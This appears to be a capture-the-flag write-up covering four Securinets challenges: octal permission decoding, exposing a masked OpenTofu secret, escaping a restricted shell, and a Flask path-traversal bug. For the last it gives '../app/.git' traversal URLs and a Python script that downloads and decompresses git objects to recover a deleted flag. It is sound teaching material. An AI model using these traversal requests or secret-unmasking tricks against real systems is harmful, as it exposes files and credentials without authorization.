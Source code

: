 # Perms
This task is an easy one being solved by 22 teams. We were provided with a `challenge.txt` file containing linux permissions on each line.
With no description or hints provided with the task , i considered calculating permissions using an online calculator. [Link](https://nettools.club/chmod_calc)

Then, I used [Cyberchef](https://gchq.github.io/CyberChef/) with the `from octal` function to decrypt the message and get the flag.


# Openheimer
Task description : terraform's good, but have you tried opentofu?
We were provided with a netcat to interact with the server , which had an OpenTofu console running, along with a main.tf file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f0d50c05-3a50-498f-a305-180c316a8e44)

This task was an opportunity to learn about terraform and opentofu, a free terraform fork. [OpenTofu](https://opentofu.org)
With the console running, I attempted various console commands using the documentation . [Doc](https://opentofu.org/docs/cli/commands/console/)
![image](https://github.com/Garroura/CyberTEK/assets/164345052/b04d894e-7137-4ada-af83-370ab58428d9)

To print the value of our variable named `SECRET` , we can use `var.SECRET` but is says `(sensitive value)` which is obvious because `sensitive` is set to `True`.
So we need to baypass this and print the value. 
Going through the terraform commands [link](https://developer.hashicorp.com/terraform/language/functions/nonsensitive) we found that the `nonsensitive` command takes a sensitive value and returns a copy of that value with the sensitive marking removed, thereby exposing the sensitive value.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f5a1d4eb-2054-4fe8-a0ec-e542a23ec918)


As we can see it is refusing to print the value in plaintext so we will try weak encoding functions starting with `base64encode` .
![image](https://github.com/Garroura/CyberTEK/assets/164345052/c16c0ec1-c480-4987-9d00-b6fa52b0851a)

We can see here thas he is blacklisting some functions so we will try different encoding techniques. As we go through , the `urlencode` function is printing something.
![image](https://github.com/Garroura/CyberTEK/assets/164345052/11087099-314e-4f3c-b2bc-6bb5310d89a3)

Using the urldecode function  in Cyberchef we get our flag in ascii .

`Securinets{oP3N7OfU_I5_4w35Om3_8U7_83c4R3FuL_WH3n_WORkin9_Wi7h_53Cr3Ts}`

# bolbok

Task description : Bolbok is scared of the arcane and has hidden his secret in this restricted shell.
Using the netcat to connect to the server , we have a shell but we can only use some commands. I used the Offsec Handbook, it helps a lot [Offsec](https://0xffsec.com/handbook/shells/restricted-shells/)
To see writable variables i used `export -p`. 
![image](https://github.com/Garroura/CyberTEK/assets/164345052/5ead06c3-2c0b-42be-9246-e45173fba38d)

As we can see the commands we can execute are stored in /usr/bolbok/cmds 

I used `echo /usr/bolbok/cmds/*` to list the directories in the file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c670dc26-3286-4384-b9dd-bddd9186413a)

Since we can execute the `ls` command , we can use -l to show all details about the files,  -a to print all hidden files and directories and -R for recursive mode , to list all directrories starting with / ( `ls -laR /`)

Exploring the listed directories we can find a hidden file named .flag in `/usr/share/misc/bolbok/directorysecrets/youwillneverfindthis`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/e791a61a-c182-4254-a529-e927ca7e8f65)

Now , knowing the directory and the flag format we can use `grep -r "Securi" /usr/share/misc/bolbok/secrets/youwillneverfindthis` 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/62d58771-afb8-4d0b-b217-367981c982e9)

`Securinets{wH47_W45_7H47_3x4C7LY?4n_R845h_j41l??_0r_ls_4nd_grep_L3550n}`

# Ekko 
Task description : ls & cat made easy.

We were provided with a web page displaying its source code written in Flask and a dockerfile.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/aec601f1-47d7-4f02-af0d-c97d20afd4b0)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c380ed98-7b96-4919-9e7c-cdac11895bb6)


Going through the code , we see that we can use the commands `ls` and `cat` with `q` as a query parameter. 
Looking at the docker file , we knew that there is a `.git` file in the app directory so we try to acces it using  `https://ekko.securinets-tekup.tech/ls?q=../app/.git`.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/43012f69-e16d-4894-a58f-f582ea94dd63)


We tried to go through each file and look for sensitive information , so i found this using `https://ekko.securinets-tekup.tech/cat?q=../app/.git/logs/HEAD`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/60c8fbaf-6167-45ae-8be9-c4137dc2f6b8)


The commit history and their hashes revealed that the user added a file named flag.txt to the git, then deleted it. To recover this, we needed to go back to that commit.

Going through the git [docs](https://git-scm.com/book/fr/v2/Les-tripes-de-Git-Les-objets-de-Git)  and doing some researchs , we found that the git commits are stored in the `/.git/objetcs` directory using the commit hash (This is how Git initially stores content - one file per content, named after the SHA-1 checksum of the content and its header. The subdirectory is named after the first 2 characters of the fingerprint and the file after the remaining 38 characters). I tried the hash of the commit containing the flag.txt using `/cat?q=../app/.git/objects/c3/af58e5721c2dbd456ddef869a6a95d0eac473f`
It shows non printable caracters and some encoded strings.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/a1693c54-37b1-430a-a773-4105f2db1587)

Using the same git documentation , i looked for how blobs are encoded in git and i found that it is `zlib` compressed.
We wrote a solver to get all the files in /.git/objects and decompress the content of each file in order to get the flag .
```
import os
import requests, re

url = "https://ekko.securinets-tekup.tech/"

get_objects = requests.get(url + "ls?q=../app/.git/objects/" )
obj = re.findall('\w+', get_objects.text)

destination_folder = "Files"
if get_objects.status_code == 200:
    for i in obj:
        com = requests.get(url + "ls?q=../app/.git/objects/" + i + '/')
        get_com = re.findall('\w+',com.text)
        for commut in get_com:
            blob = requests.get(url + "cat?q=../app/.git/objects/" + i + '/' + commut)
            with open(commut + ".zlib", 'wb') as f:
                f.write(blob.content)
            print("Downloaded successfully:", commut + ".zlib")
        else:
            print("Failed to download:", blob.status_code)
````
````
import os
import zlib
folder_path = '`File'

# Iterate through all files in the folder
for filename in os.listdir(folder_path):
    file_path = os.path.join(folder_path, filename)
    try : 
        with open(file_path,'rb') as f:
            ct= f.read()
        a = (zlib.decompress(ct))
        print(f" : {file_path} :  {a}")
    except : continue
``
`Securinets{y43h_n0w_U_Kn0W_Wh4T_15_917_bL0bS}`

